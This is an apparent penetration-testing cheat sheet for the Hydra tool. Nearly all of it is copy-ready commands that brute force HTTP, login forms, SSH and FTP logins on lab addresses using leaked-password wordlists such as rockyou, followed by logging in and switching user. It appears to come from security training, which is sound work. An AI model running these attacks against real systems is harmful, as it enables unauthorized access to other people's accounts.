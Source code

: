 Online brute forcing tool.

---
### Basic Usage
Using a wordlist:
```bash
hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.62.19.68 -s 30905 http-get /
```

We can use the `-L` flag for the usernames wordlist and the `-P` flag for the passwords wordlist. Since we don't want to brute force all the usernames in combination with the passwords in the lists, we can tell `hydra` to stop after the first successful login by specifying the flag `-f`. The `-C` flag is for credential username:password combinations. The `-u` flag tries all users on each password, instead of trying all 14 million passwords on one user, before moving on to the next.

```bash
hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /
```

Example of static password brute force with username list:
```bash
hydra -L /opt/useful/SecLists/Usernames/Names/usernames.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /
```

Post-form request examples:
```bash
hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

```bash
hydra -l admin -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

Using custom generated usernames/passwords with [[CUPP]]
```bash
hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4
```

### Attacking local FTP
Brute force login credentials
```bash
hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1
```
Login to FTP
```bash
ftp 127.0.0.1
```
Switch user
```bash
su - m.gates
```
___
### Attacking SSH
```bash
hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4
```
Connect
```bash
ssh b.gates@178.35.49.134 -p 22
```
___
### Wordlists
```bash
/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt
/opt/useful/SecLists/Usernames/Names/names.txt
```


---


